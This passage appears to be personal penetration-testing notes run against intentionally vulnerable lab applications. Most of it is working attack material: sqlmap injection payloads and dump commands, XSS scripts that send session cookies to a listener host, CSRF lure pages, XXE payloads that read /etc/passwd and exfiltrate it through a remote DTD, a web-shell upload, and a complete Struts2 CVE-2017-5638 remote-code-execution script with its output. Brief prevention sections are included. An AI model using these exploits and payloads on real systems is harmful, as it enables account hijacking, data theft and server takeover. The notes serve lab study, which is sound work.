redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
[13:21:50] [INFO] testing if the target URL content is stable
[13:21:50] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[13:21:51] [INFO] heuristic (basic) test shows that (custom) POST parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[13:21:52] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[13:22:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:22:08] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:22:09] [INFO] testing 'Generic inline queries'
[13:22:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:22:20] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:22:25] [INFO] (custom) POST parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
[13:22:25] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:22:25] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:22:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:22:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:22:27] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:22:27] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:22:28] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:22:28] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:22:29] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:29] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:22:30] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[13:22:31] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:22:32] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[13:22:33] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:33] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[13:22:34] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[13:22:34] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[13:22:34] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[13:22:34] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[13:22:34] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[13:22:34] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[13:22:34] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[13:22:34] [INFO] testing 'MySQL inline queries'
[13:22:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[13:22:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[13:22:36] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[13:22:36] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[13:22:37] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[13:22:37] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[13:22:38] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[13:22:49] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[13:22:49] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[13:22:49] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[13:23:04] [INFO] target URL appears to be UNION injectable with 8 columns
[13:23:06] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[13:23:06] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 91 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: uname=-9080' OR 3819=3819#&pass=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=' AND (SELECT 5751 FROM (SELECT(SLEEP(5)))TbTU)-- JgtD&pass=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 8 columns
    Payload: uname=' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x716b787871,0x49674f717a43766442797866754b77625a4249676a535150615562525262734d6269756447477746,0x71716a7a71),NULL,NULL,NULL#&pass=
---
[13:24:08] [INFO] the back-end DBMS is MySQL
[13:24:08] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[13:24:12] [INFO] fetched data logged to text files under '/home/sherwinowen/.local/share/sqlmap/output/testphp.vulnweb.com'

[*] ending @ 13:24:11 /2021-10-14/
```

**Get the databases**

```
# sqlmap -r request.txt --dbs
```



**Get the tables**

```
# sqlmap -r request.txt -D users --tables
```



**Get the columns**

```
sqlmap -r request.txt -D users -T users --columns 
```


**Get records/ Extract data** 

```
sqlmap -r request.txt -D users -T users --columns --dump
```



### Defend Against SQL Injection Attacks

1. Input validation
2. Parameterized queries
3. Stored procedures
4. Escaping

https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/

- Never append untrusted data to an SQL query
- Always sanitize user input before processing
- Use parameterized queries


#### Multi Layer Defense

1. **Layer 1 - Secure Coding**

- Input validation
- Parameterized queries
- Stored procedures
- Escaping

2. **Layer 2 - Host Based WAF (Web Application Firewall)**

   - Wordfence - Wordpress WAF

     https://www.wordfence.com/

3. **Layer 3 - Edge Sided WAF**

   - Cloudflare

     

## Same Origin Policy



## Cross Site Scripting

**Types Of Croos Site Scipting**

### 1. Reflected XSS

- Non-persistent attack
- The user supplied javascript is taken by the server and sent back to the browser where it gets executed.
- The user is supplying the input and it is getting reflected back immediately


#### Refelected XSS Payload

**DVWA - low security** 

```javascript
<script>alert('abc')</script>
```

**DVWA - medium security**

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

- XSS Filter Evasion Cheat Sheet
- XSS Locator (Polygot)

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

**DVWA - high security**

```javascript
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

```javascript
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

```javascript

```


#### Steal cookies Method 1  (XVWA)

1. Create javascript

   ```javascript
   <script type="text/javascript">document.location="http://192.168.101.125:9999/cookies.php?cookie="+document.cookie;</script>
   ```

2. Convert the javascript  to URL encoder online (https://www.urlencoder.org/)

   ```
   %3Cscript%20type%3D%22text%2Fjavascript%22%3Edocument.location%3D%22http%3A%2F%2F192.168.101.125%3A9999%2Fcookies.php%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
   ```

3. Add URL encoded javascript in the URL

   ```
   http://192.168.101.120/xvwa/vulnerabilities/reflected_xss/?item=%3Cscript%20type%3D%22text%2Fjavascript%22%3Edocument.location%3D%22http%3A%2F%2F192.168.101.125%3A9999%2Fcookies.php%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
   ```

4. Create PHP script in Kali Linux box

   ```php
   <?php
   $cookies = $_GET["cookie"];
   $file = fopen('cookies.txt', 'a');
   fwrite($file, $cookies . "\n\n");
   header('Location:http://192.168.101.120/xvwa/');
   ?>
   ```

5. Run PHP listener

   ```
   $ php -S 0.0.0.0:9999
   [Fri Oct 15 09:45:36 2021] PHP 7.4.21 Development Server (http://0.0.0.0:9999) started
   [Fri Oct 15 09:46:25 2021] 192.168.101.122:57492 Accepted
   [Fri Oct 15 09:46:25 2021] 192.168.101.122:57492 [302]: GET /cookies.php?cookie=PHPSESSID=mlojsspptmctk0ailhqi7fnkh1
   [Fri Oct 15 09:46:25 2021] 192.168.101.122:57492 Closing
   
   ```

6. Check cookies.txt for the PHP session ID

   ```
   $ cat cookies.txt    
   PHPSESSID=mlojsspptmctk0ailhqi7fnkh1
   ```

#### Steal cookies Method 2 (DVWA - low security)

1. Start netcat lister

   ```
   # nc -lvp 444
   ```

2. Paste the payload in the input box and submit

   ```
   <script>new Image().src="http://192.168.101.125:4444/ouput="+document.cookie;</script>
   ```

3. Check the netcat listerner

   ```
   $ nc -lvp 4444              
   listening on [any] 4444 ...
   192.168.101.122: inverse host lookup failed: Unknown host
   connect to [192.168.101.125] from (UNKNOWN) [192.168.101.122] 54598
   GET /ouput=_pk_id.1.1fff=614ebbc1a5cf65be.1612940648.;%20PHPSESSID=9sf89jhdf2dlt6m23tb3gevd33;%20security=low HTTP/1.1
   Host: 192.168.101.125:4444
   User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
   Accept: image/avif,image/webp,*/*
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Connection: keep-alive
   Referer: http://localhost/
   ```


#### Automated Attacks

##### XSStrike

https://github.com/s0md3v/XSStrike

```sh
$ python3 xsstrike.py -u http://192.168.101.122/vulnerabilities/xss_r/?name=query --headers "Cookie: security=high; PHPSESSID=9sf89jhdf2dlt6m23tb3gevd33" --skip-dom

	XSStrike v3.1.4

[+] WAF Status: Offline 
[!] Testing parameter: name 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3072 
------------------------------------------------------------
[+] Payload: <d3v%0aonMOUSEOVEr%0a=%0aconfirm()%0dx>v3dm0s 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] y
------------------------------------------------------------
[+] Payload: <dETAilS/+/ONToggLe+=+[8].find(confirm)%0dx> 
[!] Efficiency: 100 
[!] Confidence: 10 
[?] Would you like to continue scanning? [y/N] 
```

##### Xsser

https://github.com/epsylon/xsser

```sh
$ xsser -u 'http://192.168.101.122' -g 'vulnerabilities/xss_r/?name=XSS' --cookie='security=high; PHPSESSID=9sf89jhdf2dlt6m23tb3gevd33' --ignore-proxy --threads 2 --auto

```

**Show the result**

```sh
tail -n 100 XSSreport.raw
```


   


### 2. Stored XSS

- Persistent attack
- The user supplied javascript is stored within a data stored like database, and it gets executed in the victims browser at a later point of time
- When the victim visits a page which may trigger this javascript that is stored in the database



**Upload svg file**

1. create xss.svg file with this code inside

   ```
   <svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
   ```

2. upload the file xss.svg 

3. access the xss.svg file in the URL

   ```
   http://192.168.101.119:8080/BookShelf/admin/xss.svg
   ```

   

### 3. DOM Based XSS (Document Object Model)

- type-0 XSS

- Occurs when users apply Javascript is injected in the browsers DOM without proper input sanitization 




```
http://192.168.101.120/xvwa/vulnerabilities/dom_xss/?search=
```


## Cross Site Request Forgery

- is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a Little help of social engineering (such as sending a Link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing.
- If the victim is a normal user, a successful CSRF attack can force the user to perform state
  changing requests Like transferring funds, changing their email address, and so forth.
- If the victim is an administrative account, CSRF can compromise the entire web application”.


**CSRF Attack conditions**

* The victim must be logged in to the target website

* The attacker must trick the victim to execute a specially crafted URL

  LEGITIMATE USER REQUEST:
  http://site.com/transfer.do?toacctno=934323226&amount=1000 

  MALICIOUS REQUEST:

  http://site.com/account 

  http://site.com/transfer.do?toacctno=83442342&amount=10000(


**Changing password in xvwa**

1. Get the URL using Burpsuite in the CSRF in xvwa website (Make sure you are login to the xvwa website)

   ```
   http://192.168.101.112/xvwa/vulnerabilities/csrf/?passwd=test&confirm=test&submit=submit
   ```

2. Create csrf.html in /var/www/html

   **GET method**

   ```
   <html>
   <body>
   <center>
   	<h1>A chance to win a free iPhone</h1>
   	<br>
   	<br>
   	<a href="http://192.168.101.112/xvwa/vulnerabilities/csrf/?passwd=test&confirm=test&submit=submit">I want to participate</a>
   </center>
   </body>
   </html>
   ```

   **POST method**

   ```
   <html>
   <body>
   <center>
   	<h1>A chance to win a free iPhone</h1>
   	<form method="POST" action="http://192.168.101.112/xvwa/vulnerabilities/csrf/">
   		<input type="hidden" value="test" name="passwd">
   		<input type="hidden" value="test" name="confirm">
   		<input type="submit" value="I want to participate">
   	</form>
   </center>
   </body>
   </html>
   ```

   

3. Start Apace service

   ```
   # systemctl start apache2
   ```

4. Browse the csrf.html and click the "I want to participate" link

   ```
   http://[kali machine ip]/csrf.html
   ```


## XPATH INJECTION
+ XPath (XML Path Language) is a query language for selecting nodes from an XML document.

* XPATH Injection is similar to SQL Injection which occurs when XML document is used as data store.

* Attack logic is almost similar to SQL Injection.

* XPATH doesn’t have any restrictions when querying the XML file. Therefore it is possible to retrieve data from the entire XML document.

**Bookshelf exploitation**

1. Browse Bookshelf and login as "' or 'x'='x"

   

2. Search "' or 'x'='x"

   

### XPATH INJECTION - PREVENTION
* In the example shown, studentid is taken from the user and it is inserted into XPath query.

* There is no sanitization performed on the user input before passing it into the query.

* When the XPath query is executed with malicious input, it can return output as intended by the user.

  **PREVENTION TECHNIQUES:**

  - Parameterization - It is possible to parameterize expressions that are passed to XPath parser. This is similar to parameterized SQL queries.
  - Input Validation - Maintain a whitelist and allow what is required.


- We can use regular expressions to ensure that the user enterrd input only contains numbers


## EXTERNAL XML ENTITY (XXE) INJECTION

What is an entity?

* Entities help to reduce the entry of repetitive information and also allow for easier editing.



**2 Types of Entities**

1. Internal
2. External



### EXPLOITING EXTERNAL XML ENTITY (XXE) INJECTION
* XXE occurs when an attacker can inject external entities into the XML document being parsed by the application and it if it gets executed.
  - It leads to a variety of attacks.
  - Reading arbitrary files on the server.
  - Scanning internal networks
  - Denial of Service
  - Remote Code Execution (in some cases)


1. Create books.xml

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE document [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <BOOKS>
     <STUDENT>
     <ID>1001</ID>
     <NAME>&xxe;</NAME>
     <BOOK1>Ah, Wilderness!</BOOK1>
     <BOOK2>All Passion Spent</BOOK2>
     <BOOK3>The Soldier's Art</BOOK3>
     <BOOK4>Alone on a Wide, Wide Sea</BOOK4>
     <BOOK5>An Acceptable Time</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1002</ID>
       <NAME>BOB</NAME>
        <BOOK1>Antic Hay</BOOK1>
     <BOOK2>An Evil Cradling</BOOK2>
     <BOOK3>Arms and the Man</BOOK3>
     <BOOK4>As I Lay Dying</BOOK4>
     <BOOK5>A Time to Kill</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1003</ID>
       <NAME>DENNY</NAME>
       <BOOK1>Behold the Man</BOOK1>
     <BOOK2>Beneath the Bleeding</BOOK2>
     <BOOK3>Beyond the Mexique Bay</BOOK3>
     <BOOK4>Blithe Spirit</BOOK4>
     <BOOK5>Blood's a Rover</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1004</ID>
       <NAME>STUART</NAME>
       <BOOK1>Blue Remembered Earth</BOOK1>
     <BOOK2>Blue Remembered Hills</BOOK2>
     <BOOK3>Bury My Heart at Wounded Knee</BOOK3>
     <BOOK4>Dance Dance Dance</BOOK4>
     <BOOK5>From Here to Eternity</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1005</ID>
       <NAME>KELLY</NAME>
        <BOOK1>Everything is Illuminated</BOOK1>
     <BOOK2>Eyeless in Gaza</BOOK2>
     <BOOK3>Fair Stood the Wind for France</BOOK3>
     <BOOK4>A Darkling Plain</BOOK4>
     <BOOK5>Far From the Madding Crowd</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1006</ID>
   	<NAME>JEFF</NAME>
        <BOOK1>The Other Side of Silence</BOOK1>
     <BOOK2>The Skull Beneath the Skin</BOOK2>
     <BOOK3>The Soldier's Art</BOOK3>
     <BOOK4>The Wind's Twelve Quarters</BOOK4>
     <BOOK5>The Wings of the Dove</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1007</ID>
       <NAME>STEPHEN</NAME>
        <BOOK1>The Stars' Tennis Balls</BOOK1>
     <BOOK2>That Hideous Strength</BOOK2>
     <BOOK3>Tiger! Tiger!</BOOK3>
     <BOOK4>The Waste Land</BOOK4>
     <BOOK5>The Way of All Flesh</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1008</ID>
       <NAME>ROBERT</NAME>
       <BOOK1>The Soldier's Art</BOOK1>
     <BOOK2>To Your Scattered Bodies Go</BOOK2>
     <BOOK3>That Hideous Strength</BOOK3>
     <BOOK4>Tirra Lirra by the River</BOOK4>
     <BOOK5>Recalled to Life</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1009</ID>
       <NAME>ROGER</NAME>
       <BOOK1>The Monkey's Raincoat</BOOK1>
     <BOOK2>The Mermaids Singing</BOOK2>
     <BOOK3>The Little Foxes</BOOK3>
     <BOOK4>In Death Ground</BOOK4>
     <BOOK5>Gone with the Wind</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1010</ID>
       <NAME>TAN</NAME>
       <BOOK1>Everything is Illuminated</BOOK1>
     <BOOK2>Brandy of the Damned</BOOK2>
     <BOOK3>Cabbages and Kings</BOOK3>
     <BOOK4>A Catskill Eagle</BOOK4>
     <BOOK5>Cover Her Face</BOOK5>
     </STUDENT>
   </BOOKS>
   ```

2. Upload books.xml in Bookshelf web application and verify reults

   


### Blind XXE with SSRF (Server Side Request Forgery)

1. Create books.xml

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE document [
   <!ENTITY xxe SYSTEM "http://192.168.101.125:4444">
   ]>
   <BOOKS>
     <STUDENT>
     <ID>1001</ID>
     <NAME>&xxe;</NAME>
     <BOOK1>Ah, Wilderness!</BOOK1>
     <BOOK2>All Passion Spent</BOOK2>
     <BOOK3>The Soldier's Art</BOOK3>
     <BOOK4>Alone on a Wide, Wide Sea</BOOK4>
     <BOOK5>An Acceptable Time</BOOK5>
     </STUDENT>
   
   ```

2. Open listening http server

   ```
   python3 -m http.server 4444
   ```

3. Upload books.xml in Bookshelf web application admin login and verify

4. Check the http server logs 

   ```
   python3 -m http.server 4444    
   Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
   192.168.101.119 - - [15/Oct/2021 23:22:49] "GET / HTTP/1.1" 200 -
   ```

5. Edit books.html

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE document [
   <!ENTITY % xxe SYSTEM "http://192.168.101.125:4444/remote.dtd"> %xxe;
   ]>
   <BOOKS>
     <STUDENT>
     <ID>1001</ID>
     <NAME>&xxe;</NAME>
     <BOOK1>Ah, Wilderness!</BOOK1>
     <BOOK2>All Passion Spent</BOOK2>
     <BOOK3>The Soldier's Art</BOOK3>
     <BOOK4>Alone on a Wide, Wide Sea</BOOK4>
     <BOOK5>An Acceptable Time</BOOK5>
     </STUDENT>
   ```

6. Create DTD document remote.dtd

   ```
   <!ENTITY % a SYSTEM "file:///etc/passwd">
   <!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'http://192.168.101.125:4444/?content=%a;'>">
   %b;
   %c;
   ```

   OR

   ```
   <!ENTITY % a SYSTEM "file:///etc/passwd">
   <!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'file:///helloworld/%a;'>">
   %b;
   %c;
   ```

7. Upload books.xml in Bookshelf web application admin login and verify




### Preventing XXE

**EXTERNAL XML ENTITY (XXE) INJECTION - PREVENTION**

* We need to disable support for parsing external entities if it is not required.

* If external entities can be avoided, input validation has to be performed on entities.

* Java provides a standard parser feature that can be enabled to protect from XXE.

  WHEN DOM PARSER IS USED:

  

  WHEN SAX PARSER IS USED:

  

## Lack of Access Control

**Authentication**

- is the process of verifying a users identity

**Authiorization**

- is a process of determining what resources and authenticated user is able to access

 

### AUTHORIZATION VULNERABILITIES

**ATTACKS AGAINST ACCESS CONTROLS**

* Privilege escalation is the most common form of attack we see when Access controls are not properly implemented.
  - Horizontal Privilege escalation.
  - Vertical Privilege escalation.

**Horizontal privilege escalation** 

- is where a user accesses the data/resources of other users. 
- For example, viewing transaction history of other users.

**Vertical privilege escalation** 

- is where a standard user gets access to the resources of a higher privileged user such as admin.

**Exploitation**

1. Login to Bookshelf web application as bob
2. Browse this URL "http://192.168.101.119:8080/BookShelf/admin/Dashboard.jsp" in another tab 


### Implementing RBAC (Role Based Access Controls)

Role Based Access Control in Java


## Abusing file uploads 

1. Information Gathering  using dirbuster

   ```
   dirbuster
   ```

   





2. Try to access http://192.168.101.119:8080/Bookshelf/admin  

   username: ' or 'x'='x

   password: ' or 'x'='x

3. Upload command shell cmd.jsp
4. Browse http://192.168.101.119:8080/Bookshelf/admin/cdm.jsp  

​    

5. Try to send the following command:

- ls

- ls conf

- cat conf/tomcat-users.xml

  

6. View page source

   

### Prevent File Upload Vulnerabilities

+ Use input validation to ensure the uploaded filename uses an expected extension type. Never use
blacklisting, rather use white listing.

* Keep the uploaded files in a location, which is not accessible over the Internet. We can do it by
saving the files outside the web root directory.
* Ensure the uploaded file is not larger than a defined maximum file size.
* Use captcha to stop automated bots and spammers.


## Platform Misconfigurations

### SECURING THE ENVIRONMENT

**BEWARE OF VULNERABILITIES IN FRAMEWORKS:**

* frameworks used for development can have vulnerabilities.

* Struts and Spring are two most commonly used frameworks for Java web development.

* Development frameworks should be up to date.

* Multiple Remote Code Execution vulnerabilities were identified in Struts2 In 2017.

* CVE-2017-5638 - Vulnerability in Jakarta multipart Parser

### Exploiting CVE-2017-5638

1. Browse http://192.168.101.119:8080/struts2/showcase.action

   

2. Browse the exploit https://www.exploit-db.com/exploits/41570

   

3. Copy the exploit 

   struts2-cve-2017-5638.py 

   ```python
   #!/usr/bin/python
   # -*- coding: utf-8 -*-
   
   import urllib2
   import httplib
   
   
   def exploit(url, cmd):
       payload = "%{(#_='multipart/form-data')."
       payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
       payload += "(#_memberAccess?"
       payload += "(#_memberAccess=#dm):"
       payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
       payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
       payload += "(#ognlUtil.getExcludedPackageNames().clear())."
       payload += "(#ognlUtil.getExcludedClasses().clear())."
       payload += "(#context.setMemberAccess(#dm))))."
       payload += "(#cmd='%s')." % cmd
       payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
       payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
       payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
       payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
       payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
       payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
       payload += "(#ros.flush())}"
   
       try:
           headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
           request = urllib2.Request(url, headers=headers)
           page = urllib2.urlopen(request).read()
       except httplib.IncompleteRead, e:
           page = e.partial
   
       print(page)
       return page
   
   
   if __name__ == '__main__':
       import sys
       if len(sys.argv) != 3:
           print("[*] struts2_S2-045.py <url> <cmd>")
       else:
           print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
           url = sys.argv[1]
           cmd = sys.argv[2]
           print("[*] cmd: %s\n" % cmd)
           exploit(url, cmd)
               
   ```

4. Run the python file with the exploit code

   ```
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py 
   [*] struts2_S2-045.py <url> <cmd>
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "id"
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: id
   
   uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
   
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "whoami"
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: whoami
   
   tomcat
   
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "cat /etc/passwd"
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: cat /etc/passwd
   
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
   proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
   www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
   backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
   list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
   irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
   gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
   nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
   systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
   systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
   systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
   messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
   syslog:x:104:110::/home/syslog:/usr/sbin/nologin
   _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
   tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
   uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
   tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
   landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
   pollinate:x:110:1::/var/cache/pollinate:/bin/false
   usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
   sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
   systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
   bookshelf:x:1000:1000:bookshelf:/home/bookshelf:/bin/bash
   lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
   tomcat:x:997:997:Apache Tomcat:/:/usr/sbin/nologin
   mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
   
                                                                                                                         
   ┌──(kali㉿kali)-[~/Desktop]
   └─$ python struts2-cve-2017-5638.py http://192.168.101.119:8080/struts2/ "cat conf/tomcat-users.xml" 
   [*] CVE: 2017-5638 - Apache Struts2 S2-045
   [*] cmd: cat conf/tomcat-users.xml
   
   <?xml version="1.0" encoding="UTF-8"?>
   <!--
     Licensed to the Apache Software Foundation (ASF) under one or more
     contributor license agreements.  See the NOTICE file distributed with
     this work for additional information regarding copyright ownership.
     The ASF licenses this file to You under the Apache License, Version 2.0
     (the "License"); you may not use this file except in compliance with
     the License.  You may obtain a copy of the License at
   
         http://www.apache.org/licenses/LICENSE-2.0
   
     Unless required by applicable law or agreed to in writing, software
     distributed under the License is distributed on an "AS IS" BASIS,
     WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
     See the License for the specific language governing permissions and
     limitations under the License.
   -->
   <tomcat-users xmlns="http://tomcat.apache.org/xml"
